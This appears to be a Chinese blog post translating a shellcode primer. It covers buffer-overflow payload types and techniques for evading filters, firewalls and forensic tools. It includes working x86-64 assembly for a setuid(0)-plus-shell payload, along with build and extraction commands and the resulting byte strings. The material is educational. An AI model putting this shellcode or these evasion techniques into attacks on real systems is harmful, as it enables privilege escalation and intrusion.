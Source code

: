 ```yaml
---
layout: post
title: "Shellcode"
excerpt: "综述"
category: exploit
tags: [shellcode]
disqus: true
---
```



意译：[category:Shellcode](http://blackhat.life/Shellcode)

Shellcode，也叫bytecode，是用在缓冲区溢出漏洞挖掘中的机器码(用十六进制表示的二进制文件)，或者为了方便人类阅读写成汇编。程序员能使用机器码，用汇编方法写任何应用程序(就像所有其它高级编程语言一样)。并且不像很多语言只限定在某个操作系统或指令架构上。

shellcode需要位计算、linux汇编和栈溢出的基础知识。

[TOC]

每种语言最后都解释为二进制，不管是编译的(compile-time)还是解释(runtime)。编写缓冲区溢出时要记住，有很多潜在的来自安全机制的障碍(比如DEP、ASLR、防火墙、或者IDS或者IPS应用)。一次面对现代对策的成功漏洞利用，需要利用许多过滤绕过和IDS侵入技术。

## 类型

根据执行代码的目标环境有许多类型的shellcode，在OSI模型不同层次有不同种类的对策，需要有不同的技术来成功挖掘指定的应用漏洞。

### 可执行程序(executable) vs 基于返回的(return-oriented)

大致从运行时观点看有两种shellcode：可执行shellcode和基于返回的shellcode。这要看目标环境是否能执行数据栈来决定选择哪种。如果目标合适，基于返回的shellcode无视栈是否能执行，而可执行的shellcode只能在可执行栈上运行。

- 可执行shellcode在它相应的目标操作系统中用汇编写成，大多数可执行shellcode，或者传统的null-free shellcode，可以用在任何有漏洞且有可执行栈的应用上。

- 基于返回的shellcode当堆栈不可执行时利用ROP(return oriented programming).通常通过构造调用栈模仿正常的编译程序来调用可执行shellcode。因为调用栈被视为数据，这在漏洞挖掘中绕过了需要栈可执行的限制。

然而，特定指令集架构比如MIPS，不能使用基于返回的编程技术或者传统的堆栈溢出，因为它们不在栈上存储返回地址。

### 对策和措施

尽管传统二进制shellcode通常能顺利工作在没过滤机制、没打补丁、或者大输入的情况下，许多目标环境和应用也有许多限制因素来组织传统机器码执行。许多C或者C++写成的应用都需要机器码是null-free的(没有`\x00`)，这就是为何null-free shellcode是可执行shellcode编程的传统基础形式。

- 字符过滤可以利用多态(自修改)来在允许字符集外运行时构造字节，来绕过限制。许多字符过滤限制到可打印字符集，所以ascii和alphanumeric shellcode变成该技术的主导技术。
- 字符编码能通过编码载荷使之解码为相应的十六进制机器码绕过。通常代码必须在被拷贝到有漏洞的缓冲区前经过unicode、base64、大小写转换或者其它解码仍然存在。
- 缓冲区尺寸也许惊人有限，某些环境中载荷太大不能放入缓冲区，这时就需要二次注入技术(second-order-injection)。结果是shellcode尺寸保持在最小来优化重用。
- 防火墙通过阻碍外出连接或者监听socket接收流量来限制远程shellcode。绕过防火墙技术可以通过文件描述符重用技术实现。
- 分析者可能调试有漏洞的应用尝试逆向工程挖掘过程。int3断点探测和单向哈希(one-way hashing)技术能组织取证分析工具比如volatility
- 签名通常特别阻止linux shellcode因为系统调用传统上被用来作为C调用风格的接口，因此大多给定shellcode的静态部分都有个C接口。甚至多态和自修改代码通常都生成包含系统调用的shellcodes。系统调用可以通过子链接代码实现。

## shellcode机理

shellcode通常用汇编写成。尽管有人能记住助记符表来直接写机器码，这并不适合初学者所以不推荐。

环境因子：

- 许多应用和安全措施组件都部分过滤输入，限制指令集的可能。有时候这在覆盖返回地址时甚至都有影响。
- 操作系统对C API有不同的处理。通常(不是总是)linux上的shellcode依赖内核终端或者没链接的(unlinked)调用，而微软windows不提供中断API，shellcode必须利用PE解析来执行运行时链接。

## 汇编代码

创建一个叫`test_shellcode.s`的文件

这个例子使用hatter的32字节 null-free payload，这个shellcode完成`setuid(0);execve('/bin/sh', null, null)`。拷贝以下代码到`test_shellcode.s`并保存。

    BITS 64
    global _start
    start:
        xor rdi, rdi
        push qword 0x69
        pop rax
        syscall
    
        push rdi
        push rdi
        pop rsi
        pop rdx
        push qword 0x68
        mov rax, qword 0x7361622f6e69622f
        push rax
        push rsp
        pop rdi
        push qword 0x3b
        pop rax
        syscall

我又是用nasm编译而不是gas。。。

    nasm test_shellcode.s -o test_shellcode.o

## 提取shellcode

提取二进制字节码有许多方法，objdump可以(不过这时nasm生成的目标文件不包含二进制文件信息，所以要指定`nasm -felf64`这样生成包含符号表或者ELF文件头的文件), hexdump可以看。。。。。。不过译者喜欢用ndiasm，显然必须指定类型什么的。

     ~/Work/project/blackhat/shellcode  ndisasm -b64 -pamd test_shellcode.o
    00000000  4831FF            xor rdi,rdi
    00000003  6A69              push byte +0x69
    00000005  58                pop rax
    00000006  0F05              syscall
    00000008  57                push rdi
    00000009  57                push rdi
    0000000A  5E                pop rsi
    0000000B  5A                pop rdx
    0000000C  6A68              push byte +0x68
    0000000E  48B82F62696E2F62  mov rax,0x7361622f6e69622f
             -6173
    00000018  50                push rax
    00000019  54                push rsp
    0000001A  5F                pop rdi
    0000001B  6A3B              push byte +0x3b
    0000001D  58                pop rax
    0000001E  0F05              syscall

中间部分包含指定汇编的字节指令。大多数调试器也展示对应汇编代码的十六进制记法。

     ~/Work/project/blackhat/shellcode  od -t x1 test_shellcode.o | awk '{$1=""; print}'|sed 'N;s/\n//g;s/ /\\x/g' 
    \x48\x31\xff\x6a\x69\x58\x0f\x05\x57\x57\x5e\x5a\x6a\x68\x48\xb8\x2f\x62\x69\x6e\x2f\x62\x61\x73\x50\x54\x5f\x6a\x3b\x58\x0f\x05

### shellcode反汇编

许多次你看到来自‘野外的’shellcode，例如分析恶意软件和新的exploit，这时你需要反汇编shellcode来学习。最简单的方式是使用objdump(还是习惯ndiasm，呵呵)本例我们使用我们构建的实例。

就是这么简单：

     ~/Work/project/blackhat/shellcode   echo -en "\x48\x31\xff\x6a\x69\x58\x0f\x05\x57\x57\x5e\x5a\x48\xbf\x6a\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xef\x08\x57\x54\x5f\x6a\x3b\x58\x0f\x05" > shellcode ; ndisasm -b64 -pamd shellcode      
    00000000  4831FF            xor rdi,rdi
    00000003  6A69              push byte +0x69
    00000005  58                pop rax
    00000006  0F05              syscall
    00000008  57                push rdi
    00000009  57                push rdi
    0000000A  5E                pop rsi
    0000000B  5A                pop rdx
    0000000C  48BF6A2F62696E2F  mov rdi,0x68732f6e69622f6a
             -7368
    00000016  48C1EF08          shr rdi,byte 0x8
    0000001A  57                push rdi
    0000001B  54                push rsp
    0000001C  5F                pop rdi
    0000001D  6A3B              push byte +0x3b
    0000001F  58                pop rax
    00000020  0F05              syscall
